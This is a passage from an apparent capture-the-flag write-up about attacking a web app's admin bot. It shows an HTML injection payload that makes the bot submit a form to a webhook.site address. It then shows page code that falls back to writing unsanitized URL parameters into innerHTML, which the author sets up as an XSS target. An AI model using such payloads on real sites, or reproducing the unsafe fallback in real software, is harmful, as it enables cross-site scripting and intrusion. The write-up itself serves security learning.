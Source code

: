 ```css:switch.css
.slider {
    position: absolute;
    cursor: pointer;
    top: 0;
    left: 0;
    right: 0;
    bottom: 0;
    background-color: #ccc;
    -webkit-transition: .4s;
    transition: .4s;
}
```

Now using the following payload, the button renders correctly and gets clicked by the bot (I verified this using webhook)

```html
<link rel="stylesheet" href="/css/switch.css" />
<form action="https://webhook.site/26d62c0b-fd91-4f30-9f78-152de98c1012">
  <button type="submit" class="slider"></button>
</form>
```

Now that we can redirect to /admin/test, hopefully we have more luck with XSS there.

# XSS part 2

Achieving XSS on `/admin/test` is no easy feat, especially due to the site using DOMPurify `3.2.4`, the latest version of it. No way we are bypassing DOMPurify with a 0day.

```html:admin/test.html
<script src="../js/purify.min.js"></script>
<script>
    const post_title = document.querySelector(".post_title");
    const post_content = document.querySelector(".post_content");
    const error_div = document.querySelector(".error_div");

    const urlSearch = new URLSearchParams(location.search);
    const title = urlSearch.get('title');
    const content = urlSearch.get('content');

    if (!title && !content) {
        post_content.innerHTML = "Usage: ?title=a&content=b";
    } else {
        try {
            post_title.innerHTML = DOMPurify.sanitize(title);
            post_content.innerHTML = DOMPurify.sanitize(content);
        } catch {
            post_title.innerHTML = title;
            post_content.innerHTML = content;
        }
    }
</script>
```
